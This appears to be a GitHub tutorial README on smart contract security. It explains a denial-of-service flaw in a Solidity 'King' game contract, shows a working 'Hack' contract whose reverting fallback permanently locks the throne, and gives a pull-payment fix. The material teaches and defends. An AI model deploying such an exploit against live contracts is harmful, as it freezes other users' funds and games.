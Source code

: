 # Smart_contract_security
```bash
;
```
DOS attack on a smart contract.

We will see how a contract  which rejects accepting ether is used to trigger a DOS attack on a smart contract .
We will also see a contract with similar functionality , but which is not vulnerable to DOS attacks.

"The King contract is a simple game where participants can become the king by sending more Ether than the current prize. The contract keeps track of the current king, the prize, and the contract owner."
```bash
contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() payable {
    owner = payable(msg.sender);
    king = payable(msg.sender);
    prize = msg.value;
  }

  receive() external payable {
    _becomeKing();
  }

  function becomeKing() external payable {
    _becomeKing();
  }

  function _becomeKing() internal {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value); //transfer method sends the specified amount of Ether and reverts the transaction if the transfer fails
    king = payable(msg.sender);
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}


```




State Variables

Here, king is the address of the current king, prize is the amount of Ether needed to become the king, and owner is the contract owner.

Constructor

The constructor sets the initial owner and king to the contract creator, and the initial prize to the Ether sent during contract deployment.

Receive Function

The receive function is triggered when the contract receives Ether, calling the internal _becomeKing function to update the king.

Become King Function

Participants can also explicitly call becomeKing to attempt to become the king. The _becomeKing function checks if the sent Ether is at least the current prize, transfers the Ether to the current king, and updates the king and prize.


The Vulnerability

The vulnerability lies in the king.transfer(msg.value) line. If the king is a contract that reverts on receiving Ether, the transfer will fail, causing a Denial of Service.

Let's see how this vulnerability can be exploited with the Hack contract.



The vulnerability lies in the king.transfer(msg.value) line. If the king is a contract that reverts on receiving Ether, the transfer will fail, causing a Denial of Service.

## Exploiting this vulnerability with a hack contract
```bash
contract Hack {
constructor(address payable target) payable {
    uint prize = King(target).prize();
       (bool ok,) = target.call{value: prize}("");
        require(ok, "tx failed");
    }
fallback() external payable {

    revert();
}

function withdraw() external {
       payable(msg.sender).transfer(address(this).balance);
   }

}
```

The Hack contract exploits the vulnerability by becoming the king and then blocking any subsequent Ether transfers.The constructor sends enough Ether to the King contract to become the king.The fallback function always reverts, preventing any Ether transfer to the Hack contract, thus causing the DoS.

# Mitigating the Vulnerability

Updated version of the King contract 

```bash
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address payable public king;
    uint public prize;
    address payable public owner;

    mapping(address => uint) public pendingWithdrawals;

    event NewKing(address indexed newKing, uint prize);

    constructor() payable {
        owner = payable(msg.sender);
        king = payable(msg.sender);
        prize = msg.value;
    }

    receive() external payable {
        _becomeKing();
    }

    function becomeKing() public payable {
        _becomeKing();
    }

    function _becomeKing() internal {
        require(msg.value >= prize || msg.sender == owner, "Insufficient value to become the king");
        
        if (king != address(0)) {
            pendingWithdrawals[king] += prize;
        }
        
        king = payable(msg.sender);
        prize = msg.value;

        emit NewKing(msg.sender, msg.value);
    }

    function withdraw() public {
        uint amount = pendingWithdrawals[msg.sender];
        require(amount > 0, "No funds to withdraw");

        pendingWithdrawals[msg.sender] = 0;
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Withdrawal failed");
    }

    function _king() public view returns (address payable) {
        return king;
    }
}
```
This updated version of the King contract includes a mitigation against the DoS with revert vulnerability. Instead of transferring Ether directly to the previous king using transfer, it uses a pull payment mechanism. The previous king can withdraw their prize at their convenience.

The mapping function in this context is used to create a record of pending withdrawals for each address that has Ether to be claimed. It ensures that Ether owed to previous kings is stored and can be withdrawn later, rather than being transferred immediately when a new king is crowned. This avoids the risk of blocking the contract if the recipient rejects the transfer.
